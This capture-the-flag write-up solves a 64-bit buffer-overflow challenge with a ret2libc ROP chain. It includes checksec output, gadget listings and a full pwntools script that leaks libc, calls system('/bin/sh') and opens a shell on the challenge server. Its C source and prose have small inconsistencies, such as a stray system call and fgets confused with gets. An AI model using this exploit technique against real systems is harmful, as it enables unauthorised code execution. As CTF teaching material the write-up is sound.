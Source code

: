 # rop_rop_rop_away

Given an ELF, libc and C source code of the binary. Generally speaking, libc files can determine the addresses of which where the binary is being executed. So they only thing that left is just to determine what is the correct OFFSET in order to exploit the BOF. Then, we can grab the function addresses from the libc file. 

but first, its a good idea to check the file type in order to have a clear visibily of what we are dealing with. 

```bash
file rop_rop_rop_away
rop_rop_rop_away: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=0e86dbd76fcb9e38dea86cc8ec5b719140139231, for GNU/Linux 3.2.0, not stripped
```
Its important to know that the file is an 64 bit exectuable, this way we can adapt our final payload in order for our payload to work as expected. Now that we know that we are dealing with a 64 bit binary, its a good idea to check what are the protections that was implemented while compilng this binary.
```bash
checksec rop_rop_rop_away
[*] '/home/osboxes/Desktop/solver/rop_rop_rop_away'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

**NX stands for No eXecute and XD stands for eXecute Disable. Both are same and is a technology used in processors to prevent execution of certain types of code.**  (you can read more about it [here](https://access.redhat.com/solutions/2936741 "here"))



Executing the binary gives the address of fgets function? 

```bash
./rop_rop_rop_away
ROP, ROP, ROP away!
-----------------------
The function fgets() is at 0X7FFFF7E477B0
Enter your character name: AAAAAAAAAAAAAAAAAAAA
Welcome AAAAAAAAAAAAAAAAAAAA to BOF wonderland!
Goodbye!
```

Looking back for the C file in order to get  a better visibilty on what is going on.. 

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main()
{
	printf("ROP, ROP, ROP away!\n");
	printf("-----------------------\n");
	system("/bin/sh")
	//Address of gets
	printf("The function fgets() is at %p\n", fgets);

	//The buffer overflow itself
	char name[32];
	printf("Enter your character name: ");
	gets(name);

	//Print out the name
	printf("Welcome %s to BOF wonderland!\n", name);
	printf("Goodbye!\n");
	return 0;
}
```

from the given code, It is not clear how they were getting the fgets function address, but given the fact that they provided a libc file, I am gonna assume that its being extracted from there. 

From the given code, name can take only 32 buffer, and using fgets to get the user input, it's clear that we can do some evil here. After playing with the binary a littile bit, it seems that 40 is our OFFSET. 

```bash
python -c 'print "A"*40' | ./rop_rop_rop_away
ROP, ROP, ROP away!
-----------------------
The function fgets() is at 0x7ffff7e477b0
Enter your character name: Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA to BOF wonderland!
Goodbye!
ROP, ROP, ROP away!
-----------------------
The function fgets() is at 0x7ffff7e477b0
Enter your character name: Welcome  to BOF wonderland!
Goodbye!
Segmentation fault (core dumped)
```


Based on that, we can create our exploit. 

The fact that we are provided with the fgets address makes things easier, just saying.
Based on that we can calculate the libc base address, and from there everything should work like a charm. To do that, we have to substract the fgets address that is given to us when running the binary with the fgets from libc file. We can easily do that using pwntools.


```python
from pwn import *
import re

libc = ELF("./libc.so.6")
p = remote("pwn.ctf.ae",9999)
#elf = ELF("./rop_rop_rop_away")
#p = elf.process()
x = p.recv()
fgets = re.search("0[xX][0-9a-fA-F]+",x) # Regex to get fgets address
#print(x)
if fgets:
	fgets = int(fgets.group(0),16)
	#print(hex(fgets))
libc.address = fgets - libc.symbols['fgets']
```
Now that we calculated the libc base address, we can any all address within the libc file. And in this case, we want to know where [system](https://pubs.opengroup.org/onlinepubs/009604599/functions/system.html "system") is :). 

```python
system = libc.symbols['system']
```
In order to spawn a shell we need to find where /bin/sh is.

```python
bin_sh = libc.search("/bin/sh").next()
```

To pass /bin/sh into system we will need **pop rdi ; ret** we can get that using a tool called [ROPgadget](https://github.com/JonathanSalwan/ROPgadget "ROPGadget")

```bash
ROPgadget --binary rop_rop_rop_away | grep 'pop rdi ; ret'
0x0000000000401273 : pop rdi ; ret
```

It is also a good idea to get **ret** to avoid breaking our payload. We can also get that using ROPgadget. 

```bash
ROPgadget --binary rop_rop_rop_away | grep 'ret'
0x00000000004010eb : add bh, bh ; loopne 0x40115a ; nop ; ret
0x00000000004011fc : add byte ptr [rax], al ; add byte ptr [rax], al ; leave ; ret
0x00000000004011fd : add byte ptr [rax], al ; add cl, cl ; ret
0x000000000040115a : add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x00000000004011fe : add byte ptr [rax], al ; leave ; ret
0x000000000040115b : add byte ptr [rcx], al ; pop rbp ; ret
0x0000000000401159 : add byte ptr cs:[rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x00000000004011ff : add cl, cl ; ret
0x00000000004010ea : add dil, dil ; loopne 0x40115b ; nop ; ret
0x00000000004010e9 : add dil, dil ; loopne 0x40115c ; nop ; ret
0x00000000004010e8 : add dil, dil ; loopne 0x40115d ; nop ; ret
0x000000000040115c : add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401157 : add eax, 0x2ee3 ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401017 : add esp, 8 ; ret
0x0000000000401016 : add rsp, 8 ; ret
0x00000000004010c3 : cli ; ret
0x000000000040128b : cli ; sub rsp, 8 ; add rsp, 8 ; ret
0x000000000040125c : fisttp word ptr [rax - 0x7d] ; ret
0x0000000000401158 : jrcxz 0x401190 ; add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401200 : leave ; ret
0x00000000004010ed : loopne 0x401158 ; nop ; ret
0x0000000000401156 : mov byte ptr [rip + 0x2ee3], 1 ; pop rbp ; ret
0x00000000004011fb : mov eax, 0 ; leave ; ret
0x00000000004010ef : nop ; ret
0x000000000040126c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040126e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401270 : pop r14 ; pop r15 ; ret
0x0000000000401272 : pop r15 ; ret
0x000000000040126b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040126f : pop rbp ; pop r14 ; pop r15 ; ret
0x000000000040115d : pop rbp ; ret
0x0000000000401273 : pop rdi ; ret
0x0000000000401271 : pop rsi ; pop r15 ; ret
0x000000000040126d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040101a : ret ## This is what we want
0x0000000000401011 : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x000000000040128d : sub esp, 8 ; add rsp, 8 ; ret
0x000000000040128c : sub rsp, 8 ; add rsp, 8 ; ret
```
Putting all of it together, our exploit should work. Here is the final exploit. 
```python
from pwn import *
import re

libc = ELF("./libc.so.6")
p = remote("pwn.ctf.ae",9999)
#elf = ELF("./rop_rop_rop_away")
#p = elf.process()
x = p.recv()
fgets = re.search("0[xX][0-9a-fA-F]+",x)
#print(x)
if fgets:
	fgets = int(fgets.group(0),16)
	#print(hex(fgets))
libc.address = fgets - libc.symbols['fgets']

system = libc.symbols['system']
bin_sh = libc.search("/bin/sh").next()
pop_rdi = 0x0000000000401273 
ret = 0x000000000040101a
rop_chain = [

	pop_rdi,bin_sh,
	ret,system
	]
print("[+] libc base {}".format(hex(libc.address)))
print("[+] system {}".format(hex(system)))
print("[+] /bin/sh {}".format(hex(bin_sh)))
rop_chain = ''.join([p64(r) for r in rop_chain])
payload = "B" * 40 + rop_chain
print(payload)
p.sendline(payload)
p.interactive()
```

```bash
python solve.py 
[*] '/home/osboxes/Desktop/solver/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/osboxes/Desktop/solver/rop_rop_rop_away'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/osboxes/Desktop/solver/rop_rop_rop_away': pid 59235
[+] libc base 0x7ffff7dc2000
[+] system 0x7ffff7e17410
[+] /bin/sh 0x7ffff7f795aa
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBs\x12\x00\x00\x00\x95���\x00\x1a@\x00\x00\x00t���\x7f\x00
[*] Switching to interactive mode
Enter your character name: Welcome BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBs\x12 to BOF wonderland!
Goodbye!
$ 
```
